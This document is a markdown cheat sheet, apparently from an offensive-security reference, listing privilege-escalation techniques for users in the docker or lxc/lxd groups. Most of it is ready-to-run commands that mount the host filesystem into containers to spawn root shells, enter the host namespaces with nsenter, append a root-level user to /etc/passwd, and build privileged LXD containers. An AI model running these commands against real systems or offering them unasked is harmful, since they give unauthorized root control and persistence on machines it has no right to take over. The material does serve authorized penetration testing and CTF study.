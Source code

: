 # Docker Groups

## Docker group exploits

To execute these exploits the current user has to be in `docker` group

### Writable Docker Socket

If the docker socket is writable it can be used to run commands as an elevated user. Only users in root and docker group can read the socket file.

```bash
docker -H unix:///var/run/docker.sock run -v /:/mnt -it ubuntu chroot /mnt /bin/bash
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

### Access arbitrary folders

```
docker images
docker run -v <folder>:/mnt -it <image>
cd /mnt
```

### Add user to /etc/passwd

```
docker images
docker run -v /etc/:/mnt -it <image>
cd /mnt
echo "<username>:$(openssl passwd <password>):0:0:/root:/root:/bin/bash" >> passwd
exit
su <username>
```

### Spawn shell

```
docker images
docker run -v /:/mnt --rm -it <image> chroot /mnt sh
```

### Root Please Docker image

A docker image that spawns a root shell.

```
git clone https://github.com/chrisfosterelli/dockerrootplease rootplease
cd rootplease/
docker build -t rootplease .
docker run -v /:/hostOS -it --rm rootplease
```

## LXC / LXD group exploit

To execute this exploit the current user has to be in `lxc or lxd` group. Download configure and build an Alpine image, mount /root and execute /bin/sh as root.

```
git clone https://github.com/saghul/lxd-alpine-builder
./build-alpine -a <arch>

lxc image import ./alpine.tar.gz --alias myimage

lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

lxc start mycontainer
lxc exec mycontainer /bin/sh
```
